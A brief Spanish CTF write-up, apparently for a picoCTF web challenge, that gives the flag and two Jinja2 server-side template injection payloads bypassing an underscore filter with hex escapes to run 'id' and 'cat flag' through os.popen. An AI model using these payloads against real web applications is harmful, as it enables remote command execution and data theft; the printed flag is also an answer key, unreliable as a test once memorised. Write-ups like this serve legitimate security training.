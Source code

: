 #Reto 
## Descripcion del reto
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
## Solucion
picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}
ponemos esto para ver si puede corromper la pg
- {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
despues etse
- {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
y listo

![[Pasted image 20251010182859.png]]
## Notas

## Referencias
